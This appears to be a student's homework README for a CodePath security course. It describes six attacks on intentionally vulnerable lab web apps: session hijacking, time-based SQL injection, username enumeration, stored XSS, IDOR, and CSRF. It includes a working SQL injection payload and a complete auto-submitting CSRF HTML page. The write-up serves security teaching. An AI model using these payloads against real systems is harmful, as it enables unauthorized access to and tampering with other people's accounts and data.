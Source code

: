 # CodePathHw_Unit9

Blue Exploit 1 - I performed session hijacking to verify this vulnerability. In one browser (firefox), I logged in normally but then copied the current PHPSESSIONID using a tool provided by Codepath. We then went to another browser (Chrome) which was NOT logged in and changed the PHPSESSIONID in this browser (using the same tool) to match the one we retrieved from the normally logged in browser. The result is that we were automatically logged into the system in the second browser without the need for a username or password.

Blue Exploit 2 - I performed a SQL injection at the public/staff/salespeople/show.php?id=5 endpoint. The 5 was replaced with the following SQL syntax: ' OR SLEEP(5)=0--' (which becomes %27%20OR%20SLEEP(5)=0--%27 when encoded in a URL). This snippet forced the SQL query (and thus our entire request) to pause for 5 seconds, thus indicating a successful injection.

Green Exploit 1 -  In the login screen of the green application, if the username is correct, but the password is wrong, the Log in was unsuccessful message is bolded. However, if the username does not exist, this message is NOT bolded. In the exploit, pperson, jmunroe99, and lbtables are the only valid usernames.

Green Exploit 2 - I input some Javascript in between a pair of <script> tags in the "Feedback" box of the "Contact Us" form. So that when an admin goes to his/her panel to check for any submitted forms, this Javascript is automatically executed.
  
Red Exploit 1 - An IDOR vulnerability exists where I can see any account, including those accounts that have been effectively deactivated. I used the public/salesperson.php?id=?? endpoint where ?? is the ID of the salesperson. In this exploit, I put in the ID (11) of "Lazy Lazyman," who was apparently fired for stealing. This attack is made even easier by the fact that the ID numbers of all salespeople can be guessed since they are low numbers and are in numerical order. Thus, I simply guessed ID numbers until they reach a deactivated account.

Red Exploit 2 -To perform a CSRF attack, we can trick an admin into clicking a link to a "blank" page that contains a hidden form. The page's source looks like the following:

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://xx.xxx.xxx.xx/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Ken Barker" />
      	<input type="text" name="last_name" value="WAS HACKED" />
      	<input type="text" name="phone" value="555-352-9654" />
      	<input type="text" name="email" value="kbarker@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>

It contains all of the information necessary to modify Ken Barker's salesperson profile (id=5) and will be successfully submitted as soon as a logged in user loads the page.
